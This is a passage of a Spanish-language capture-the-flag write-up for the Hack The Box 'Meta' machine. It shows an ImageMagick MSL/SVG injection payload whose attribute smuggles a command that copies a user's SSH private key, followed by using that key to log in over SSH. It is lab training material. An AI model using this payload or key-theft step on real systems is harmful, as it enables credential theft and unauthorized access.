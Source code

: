 ```bash
www-data@meta:/tmp$ cd /dev/shm
www-data@meta:/dev/shm$ nano poc.svg

<image authenticate='ff" `cat /home/thomas/.ssh/id_rsa > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>

www-data@meta:/dev/shm$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

Finalmente, luego del proceso anterior tenemos premisos de lectura para poder copiar la llave id_rsa de Thomas.

```bash
www-data@meta:/dev/shm$ ls -la
total 8
drwxrwxrwt  2 root     root       80 Jun 20 14:10 .
drwxr-xr-x 16 root     root     3080 Jun 19 19:18 ..
-rw-r--r--  1 thomas   thomas   2590 Jun 20 14:10 id_rsa
-rw-r--r--  1 www-data www-data  426 Jun 20 14:07 poc.svg
```	

Estamos listos para ingresar con un nuevo usuario por SSH, para esto vamos a crear un fichero `id_rsa` y se le asignan los permisos 600, requeridos para poder iniciar sesión con la llave obtenida.

## INTRUCIÓN

```bash
❯ vim id_rsa
❯ chmod 600 id_rsa
❯ ssh -i id_rsa thomas@10.10.11.140
The authenticity of host '10.10.11.140 (10.10.11.140)' can't be established.
ECDSA key fingerprint is SHA256:KjNiuFNo5CvSMSQO5ETmw1YJPtafmymn6SkBbMLIAFg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.140' (ECDSA) to the list of known hosts.
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
thomas@meta:~$ 
```
¡Hemos tenido acceso con el usuario Thomas!
Ahora vamos a proceder con la lectura de nuestra primera flag.
